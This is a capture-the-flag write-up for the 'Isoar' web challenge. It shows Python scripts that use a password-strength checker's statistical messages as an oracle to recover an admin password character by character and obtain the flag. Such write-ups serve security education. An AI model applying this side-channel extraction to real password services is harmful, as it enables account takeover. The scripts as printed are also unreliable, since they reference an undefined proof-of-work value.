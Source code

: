 # Isoar(Web, 31 solves, 150pts)


We start off with a url to the website: http://web.midnightsunctf.se:8000
The webapp allows us to check our passwords strength and receive a random fact about the supplied password:

```
"The given password occurs as part of 10 out of 1001 known passwords"
"The given password has 0 lowercase characters"
"The given password has the same amount of uppercase characters as 997 out of 1001 known passwords"
"The given password is shorter than 399 out of 1001 known passwords"
"The given password is longer than 155 out of 1001 known passwords"
"The first character of the given password occurs in 137 out of 1001 known passwords"
"The third character of the given password occurs in 83 out of 1001 known passwords"
"2 out of 1001 known passwords are suffixed with the given password"
"The given password has 6 characters"
"The given password has 6 digits"
"The fifth character of the given password occurs in 53 out of 1001 known passwords" 
```



`http://web.midnightsunctf.se:8000/robots.txt` has an interesting entry: `Disallow: /static/public.password.list`


[public.password.list](public.password.list) contains a list of 1000 common passwords while the messages mention 100**1** passwords, perhaps the admins password is included in the analysis but not the list?


The most interesting response type is `"2 out of 1001 known passwords are suffixed with the given password"`. Using that, we can try a bunch of suffixes and by calculating our version of the output (we do have 1000 out of the 1001 passwords) we're able to tell if admins password is included in their output or not.

That is actually enough to just brute-force the password char by char, but as it turns out that is **super** slow, mainy because:

 * We have to calculate a 2 byte proof of work for each request
 * The output message type is also randomized so we have to try a bunch of them before getting the correct one

// PS: You might think that we could bypass the poc by sending the same poc output and try to get the correct message type but it seems the message type actually depended on the poc output


What we're gonna need is a charset.

Another type of an interesting response is `"The fifth character of the given password occurs in 53 out of 1001 known passwords"` it tells us in how many passwords a certain letter from our supplied password occurs.

We can throw against it a lot of random passwords and build the admins password charset using the same technique as with the suffixes.

Putting all of this together, we get:

A bottleneck with required primitives:

``` python
import requests
from hashlib import sha256
import random
import string
import json
import re


alph = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
def password_poc(password):
	while True:
		poc = ''.join([random.choice(alph) for x in range(10)])
		if sha256(password+poc).hexdigest().startswith('1337'):
			return poc

def check_password(password):
	url = "http://web.midnightsunctf.se:8000/pwmeter/%s/%s" % (password, poc)
	r = requests.get(url)
	return r.content


with open('public.password.list') as f:
	passwords = f.read().split('\n')


def count_words(position, letter):
	s = filter(lambda x: letter in x, passwords)
	return len(s)

translate_pos = {'first':0, 'second':1, 'third':2, 'fourth':3, 'fifth':4}
```



Script to scrap the charset

``` python

CHARSET = ""

while True:
	rand_input = ''.join([random.choice(alph) for x in range(random.randint(1, 16))])
	reg = r"The (.*) character of the given password occurs in (.*) out of 1001 known passwords"
	
	response = json.loads(check_password(rand_input))["analysis"]

	re_found = re.findall(reg, response)
	if re_found:
		position, number = re_found[0]
		number = int(number)

		letter = None
		pos = None

		if position == 'last':
			letter = rand_input[-1]
			pos = len(rand_input)-1
		else:
			pos = translate_pos[position]
			letter = rand_input[pos]

		my_count = count_words(pos, letter)

		if my_count != number:
			print(letter)
			if letter not in CHARSET:
				CHARSET += letter
				print(CHARSET)
```


Script to finally find the password

``` python
def count_word_suffix(suffix):
	s = filter(lambda x:x.endswith(suffix), passwords)
	return len(s)


final_password = ""

while True:
	#                    found charset
	for letter_addon in 'lryHws3od0P4':
		print(letter_addon)
		rand_input = letter_addon + final_password
		
		found = False
		while True:

			reg = r"(.*) out of 1001 known passwords are suffixed with the given password"

			r = re.findall(reg, json.loads(check_password(rand_input))['analysis'])

			if r:
				their_count = int(r[0])
				my_count = count_word_suffix(rand_input)

				if their_count != my_count:
					print(their_count, my_count, rand_input)
					final_password = letter_addon + final_password
					print(final_password)
					found=True
				else:
					print("no")

				break
		if found:
			break
```

Running all of this finally gave us the password:`H3rHolyP4ssw0rd`
And the flag: `midnight{Someone_didnt_bother_reading_my_carefully_prepared_memo_on_commonly_used_passwords}`


